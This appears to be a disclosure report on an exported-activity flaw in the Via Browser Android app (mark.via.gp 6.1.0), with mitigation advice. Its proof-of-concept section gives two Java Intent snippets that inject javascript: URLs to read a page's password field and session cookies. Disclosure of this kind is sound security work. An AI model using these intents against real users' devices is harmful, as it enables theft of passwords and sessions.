


# Vulnerability Report 

---

## Overview:  

A remote code execution (RCE) vulnerability has been discovered in the `mark.via.gp` application on the Android platform. This vulnerability allows attackers to execute arbitrary JavaScript code within the application context without any permissions.

## Application Details:  

- Vendor: - [Tu Yafeng](https://viayoo.com/)
- Application Name: 'Via Browser' mark.via.gp
- Version: 6.1.0
- Component: mark.via.Shell

## Vulnerability Details:  

- Vulnerability Type: Remote Code Execution (RCE)
- Attack Vector: Via an exported activity component
- Permissions Required: None

## Description:  

mark.via.Shell is an activity in the mark.via.gp application that has been incorrectly set to exported, allowing any third-party app to invoke it without requiring any permissions. Malicious applications can exploit this vulnerability to execute arbitrary JavaScript code within the context of the mark.via.gp app, potentially leading to security issues.

This vulnerability is particularly concerning because:

- The victim does not need to grant any special permissions to any installed applications.

- The attack can be initiated remotely.

## Proof of Concept (PoC): 

The following payload injects JavaScript to extract password data and browser session cookies without requiring any permissions.

### （1）Extract password data

```java
static Intent exploit() {
    Intent intent = new Intent(Intent.ACTION_VIEW);
    intent.setClassName("mark.via.gp","mark.via.Shell");
    String url = "javascript:(function()%7Bvar%20password%20%3D%20document.getElementById(%27pass%27).value%3Balert(%27Password%3A%20%27%20%2B%20password)%3B%7D)()";
    intent.setData(Uri.parse(url));
    return intent;
}
```



### （2）Session Cookie Theft:  

```java
static Intent exploit() {
    Intent intent = new Intent(Intent.ACTION_VIEW);
    intent.setClassName("mark.via.gp", "mark.via.Shell");
    String url = "javascript:(function()%7Balert(%27Session%20Cookies%3A%20%27%20%2B%20document.cookie)%3B%7D)()";
    intent.setData(Uri.parse(url));
    return intent;
}
```



## Impact: 

Successful exploitation allows an attacker to:

- Execute arbitrary JavaScript code within the context of the `mark.via.gp` app.

The enabled `'settings.setDomStorageEnabled(true)'` value in the app's WebView allows for the use of the Web Storage API.

## Risks include:  

Credential harvesting if websites store sensitive data. Manipulating or flooding stored values. Assisting in malicious persistence.

## Mitigation and Recommendations:

Restrict Activity Export: Do not export activities unless necessary. If required, implement proper authorization checks to ensure that only legitimate entities can invoke it.